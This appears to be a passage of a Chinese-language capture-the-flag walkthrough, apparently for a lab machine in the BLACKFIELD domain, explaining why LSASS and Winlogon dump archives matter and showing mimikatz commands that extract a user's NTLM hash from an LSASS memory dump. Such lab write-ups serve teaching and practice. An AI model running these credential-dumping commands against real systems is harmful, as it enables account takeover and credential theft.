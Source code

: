 ![](./images/image-68.png)

这两个文件比较可疑

**lsass.zip**:

- **LSASS (Local Security Authority Subsystem Service)** 进程负责管理 Windows 操作系统中的身份验证和安全策略。它处理用户登录、账户验证和密码验证等操作。如果攻击者能够访问 LSASS 的内存转储，通常可以提取出用户凭据（如 NTLM 哈希、Kerberos 密钥等）。

- **可能包含身份验证信息**：用户名、密码哈希、Kerberos 密钥、票证等。

**winlogon.zip**:

- **Winlogon** 进程涉及 Windows 登录过程，包括用户身份验证、登录屏幕、验证登录凭证等。它处理用户登录时的身份验证流程。

- **可能包含身份验证信息**：用户名、登录凭证。

## Mimikatz

把**lsass.zip**解压得到一个**lsass.DMP**，这个文件可以使用**mimikatz**解密

```
C:\Users\ASUS\Desktop\新建文件夹>mimikatz.exe

---
mimikatz # sekurlsa::minidump lsass.DMP
Switch to MINIDUMP : 'lsass.DMP'

mimikatz # sekurlsa::logonpasswords full
Opening : 'lsass.DMP' file for minidump...

Authentication Id : 0 ; 406458 (00000000:000633ba)
Session           : Interactive from 2
User Name         : svc_backup
Domain            : BLACKFIELD
Logon Server      : DC01
Logon Time        : 2020/2/24 2:00:03
SID               : S-1-5-21-4194615774-2175524697-3563712290-1413
        msv :
         [00000003] Primary
         * Username : svc_backup
         * Domain   : BLACKFIELD
         * NTLM     : 9658d1dXXXXXXXXXXXXXXXXXXXXXXX
```